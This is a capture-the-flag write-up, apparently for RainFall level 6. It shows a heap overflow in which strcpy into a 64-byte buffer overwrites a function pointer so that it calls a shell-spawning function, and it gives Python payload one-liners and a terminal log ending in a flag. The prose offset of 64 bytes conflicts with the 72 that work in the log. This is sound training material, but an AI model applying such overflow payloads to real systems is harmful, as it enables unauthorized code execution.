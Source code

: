 <h1 align="center"> LEVEL 6 </h1>

## 🔍 Analysis of Decompiled [level6](./source.c)

### Step 1: Understanding what we need to overflow

we're trying to overwrite the function pointer stored in the second malloc'd block (`heap2`), which is written with:

```asm
mov $0x8048468, %edx     ; address of m()
mov 0x18(%esp), %eax     ; heap2
mov %edx, (%eax)         ; *heap2 = m
```

control the data written into `heap1` via:

```c
strcpy(heap1, argv[1])
```

So:

* `heap1 = malloc(0x40)`
* `heap2 = malloc(0x4)`
* `*heap2 = &m`
* Then `strcpy(heap1, argv[1])`

That means we need to:

* Write 64 bytes (`0x40`) to fill `heap1`
* Then **4 more bytes** to overwrite the function pointer in `heap2`

---

### Step 2: Confirm address of `n()` function

From your GDB output:

```asm
Dump of assembler code for function n:
0x08048454 <+0>: ...
```

So, address of `n()` is: `0x08048454`

---
## 💥 Exploit 
Craft the payload:
```bash
python -c 'print("A"*64 + "\x54\x84\x04\x08")'
```

**Important:** the program is calling `strcpy(argv[1])`, not reading from stdin — so you must pass the payload as an argument:

```bash
level6@RainFall:~$ ./level6 $(python -c 'print("A"*64 + "\x54\x84\x04\x08")')
Nope
level6@RainFall:~$ ./level6 $(python -c 'print("A"*68 + "\x54\x84\x04\x08")')
Segmentation fault (core dumped)
level6@RainFall:~$ ./level6 $(python -c 'print("A"*72 + "\x54\x84\x04\x08")')
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
```

This should cause:

* input overflows `heap1`
* Overwrites the pointer in `heap2` with `0x08048454` (address of `n`)
* When `main()` executes `call *eax`, it will actually call `n()`, which runs `system("/bin/sh")`

---